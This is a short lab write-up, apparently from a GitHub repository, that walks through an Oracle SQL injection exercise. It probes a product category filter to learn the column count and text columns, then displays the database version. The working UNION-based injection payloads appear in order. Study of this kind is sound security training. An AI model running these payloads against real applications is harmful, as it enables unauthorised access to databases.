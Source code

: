 # **Lab 03 - SQL injection attack, querying the database type and version on Oracle**


## Scenario
***
**SQL injection vulnerability** -> product category filter

**End Goal**                              -> display the database version string
***

## Analysis

### **(1)  Find the number of columns**

* 1st method (internal server error)

```
' ORDER BY 3--
```

* 2nd method

```
' UNION SELECT NULL,NULL from DUAL--
```

**Conclusion:** 2 columns

### **(2) Figure out which columns contain text**

```
' UNION SELECT 'a', 'a'--
```

**Conclusion:** Both columns contain text.

### **(3) Output the version**

```
' UNION SELECT banner, NULL from v$version--
```

**Conclusion:** The version displayed is 

![imagem](https://github.com/VascoLucas01/SQL-Injection-stuff/assets/110473841/5daf8297-096a-4740-b5ed-f0756515effa)

